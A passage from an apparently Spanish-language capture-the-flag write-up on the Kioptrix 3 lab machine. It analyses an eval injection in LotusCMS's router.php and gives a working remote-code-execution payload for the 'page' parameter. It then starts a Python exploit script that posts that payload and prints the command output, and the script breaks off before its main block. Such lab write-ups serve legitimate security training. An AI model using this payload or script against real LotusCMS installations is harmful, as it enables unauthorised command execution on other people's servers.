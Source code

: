   

En google aparecen muchos exploit públicos y hasta un módulo de metasploit pero aquí no usamos metasploit así que vamos a desarrollarnos nuestro propio exploit, primero voy a conseguir el archivo router.php para analizarlo y así poder construir nuestro exploit.

> Tuve que descargar la versión vulnerable de LotusCMS para poder conseguir el archivo.

![](https://lh5.googleusercontent.com/Q2xzCyVvTWbJZzI09U9dEHl2s0o7-NKgVP-QPguTxyR__dyIVvQ7wT68eRz58fEfwNFT0FDyXtVVahlIeFBNhv_4XTASa9uuIjTpUHue9WIHBCBatyy-jXUobXzJyB8PGnhGj0Ei)

Analizando un poco el código vemos que la pagina afectada es la siguiente:

![](https://lh4.googleusercontent.com/6ryhDtQoY2a01n1m77zjz0Xu8qzfQEc58EzcPlMKT52JbtBbfHa7w7cw3uwJeAEg97rqAJBi2ILMf8vUEkK1fz1nxVuov8aouCr56Ehm1vYLc1Xipjme_Vj1maP_yUoqydduhUmA)

![](https://lh4.googleusercontent.com/h8TN87YDouHSZ-apJF447UTIflpMnvV70UQb5hzoY2ifxcI_IrdMUyouVhy5URs4sqkaiO6eIwIRvTRnfmUmLPe8RHA6g79M-nyOZEygp4bfAax8z9MF1Xgg1KjhpAncNYafAYoZ)

Lo que significa que el valor que le pase al parámetro page es el que se envía como parámetro al método eval logrando así el RCE.

![](https://lh4.googleusercontent.com/VK2TvdF-YGlULG0ZGcE6IusTBcC7orX6uZJL2R7Y3QOZXpfvXF10ErHkrlcfLXCawtc2Jyvzxt8bW3EDYdbBW1-sfmRH0UaN6nlqG2S7wDK1YEWpHncvYE0bPv0tClyy8p2uWYve)

Así que vamos allá, debemos buscar la manera de lograr ese RCE, abro mi burpsuite, intercepto la peticion y la mando al repeter para trabajar mas comodamente.

![](https://lh4.googleusercontent.com/Gqs2ZiH4T3Xb-7N6uKznHFz-euAQd32MqfSUmLaWHJkP4PvkPrBM82gEZo3Rw13osLZuqv9di4_hRMBMNfXXJ3Goh88I7eCCw19ho_fWYbdb8Dt51g3QrvfYgPYUrNlQOMInp_1Q)

Después de un tiempo logré dar con el payload.

![](https://lh6.googleusercontent.com/xzMPqrXq0iSx8ev9ee-KBr7Gtj3HCBRQKX4GHZQn-ExvEEInWSzBbhQ0wGDg_zIlH1wpYx1sMXWbrvOYQ-aXizXdMAq4eicvN6qtdi29TN0FuZuIpaCFP7O9eFklGa065tvq-kY5)

El payload es el siguiente: 

> index');${system('comando’)};

Nota: Es necesario encodear el payload para que se pueda interpretar corretamente el comando.

Ahora que podemos ejecutar comandos es muy sencillo enviarnos una reverse shell, pero ya me conocen, vamos a programarnos nuestro propio exploit utilizando python.
```python
#!/usr/bin/env python3
#Author: Intrusionz3r0

import requests,signal,sys

def handler(key,frame):
	print("Adios!!")
	sys.exit(0)

signal = signal.signal(signal.SIGINT,handler)

def shell(comando):
	url = "http://kioptrix3.com/index.php"
	payload = "index');${system('%s')};#" %(comando)

	data1={
		"page": payload
	}

	header={
		"Content-Type": "application/x-www-form-urlencoded"
	}

	r1 = requests.post(url,headers=header,data=data1)
	response=(r1.text.split("</html>")[1]).strip()
	print(response)


if __name__ == "__main__":
```